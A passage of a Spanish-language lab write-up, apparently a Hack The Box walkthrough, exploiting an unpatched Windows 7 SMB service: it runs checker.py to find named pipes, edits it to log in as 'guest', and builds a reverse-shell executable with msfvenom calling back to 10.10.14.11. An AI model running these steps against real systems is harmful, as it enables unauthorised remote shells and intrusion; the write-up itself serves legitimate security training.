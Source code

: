 Como primer paso, vamos a ejecutar el `checker.py` que nos ayuda a identificar el nombre del pipe que vamos a utilizar en el script de explotación.

```bash
python checker.py 10.10.10.40
Trying to connect to 10.10.10.40:445
Target OS: Windows 7 Professional 7601 Service Pack 1
The target is not patched

=== Testing named pipes ===
spoolss: STATUS_ACCESS_DENIED
samr: STATUS_ACCESS_DENIED
netlogon: STATUS_ACCESS_DENIED
lsarpc: STATUS_ACCESS_DENIED
browser: STATUS_ACCESS_DENIED
```

En esta oportunidad no hemos tenido éxito encontrando un nombre de pipe que podamos utilizar para nuestra explotación, por lo que procedemos a modificar el script `checker.py`, agregando el usuario "guest" en el campo de usuario.

```bash
vim checker.py
**AGREGAR guest EN LA LINEA 14
  USERNAME = 'guest'
```

Intentamos nuevamente realizar la ejecución del script `checker.py`

```bash
python checker.py 10.10.10.40
Trying to connect to 10.10.10.40:445
Target OS: Windows 7 Professional 7601 Service Pack 1
The target is not patched

=== Testing named pipes ===
spoolss: STATUS_OBJECT_NAME_NOT_FOUND
samr: Ok (64 bit)
netlogon: Ok (Bind context 1 rejected: provider_rejection; abstract_syntax_not_supported (this usually means the interface isn't listening on the given endpoint))
lsarpc: Ok (64 bit)
browser: Ok (64 bit)
```
Tal como podemos ver, los nombres de pipe que podemos utilizar son los de status **OK**, en este caso `samr`, `netlogon`, `lsarpc` y `browser`.

Para poder tener éxito, es necesario generar una reverse shell por medio de la utilidad `msfvenom` con nuestra dirección IP y puerto de escucha para obtener posteriormente la shell denominada `reverseShell.exe`

```bash
  msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.11 LPORT=4564 -f exe -o reverseShell.exe
```

Para que el script de explotación funcione de manera correcta, debemos repetir el proceso que realizamos con `checker.py`, pero esta vez la modificación se realiza en el script `send_and_execute.py`.
